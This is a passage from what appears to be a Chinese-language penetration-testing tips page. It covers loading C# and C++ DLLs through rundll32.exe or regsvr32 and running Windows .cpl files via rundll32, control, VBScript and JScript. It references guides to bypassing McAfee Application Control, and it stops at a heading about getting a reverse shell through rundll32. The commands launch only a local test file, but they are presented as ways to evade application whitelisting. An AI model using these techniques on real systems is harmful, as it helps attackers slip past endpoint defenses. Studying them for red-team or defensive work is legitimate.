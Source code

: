 《Bypass McAfee Application Control——Code Execution》

---

### Tips 10. 通过c#编写dll & 通过rundll32.exe或者regsvr32加载dll

默认情况下，c#不可以声明导出函数，但可通过添加UnmanagedExports实现

当然，通过c#编写的dll，dll需要在对应版本的.NET环境才能正常运行，通过c++编写的dll更加通用

通过rundll32.exe或者regsvr32能够加载dll，但要求dll包含特定的导出函数

参考： 

《Code Execution of Regsvr32.exe》

---

### Tips 11. Windows下cpl文件介绍

本质上是DLL文件，后缀名为cpl，包含一个导出函数CPLApplet(c实现可不指定)

执行方法：

(1)双击直接运行

(2)cmd

```
rundll32 shell32.dll,Control_RunDLL test.cpl
```

(3)cmd

```
control test.cpl
```

(4)vbs

```
Dim obj
Set obj = CreateObject("Shell.Application")
obj.ControlPanelItem("test.cpl")
```

(5)js

```
var a = new ActiveXObject("Shell.Application");
a.ControlPanelItem("c:\\test\\test.cpl");
```

参考：

《CPL文件利用介绍》

---

### Tips 12. Windows下通过cmd调用rundll32执行一段代码弹回Shell

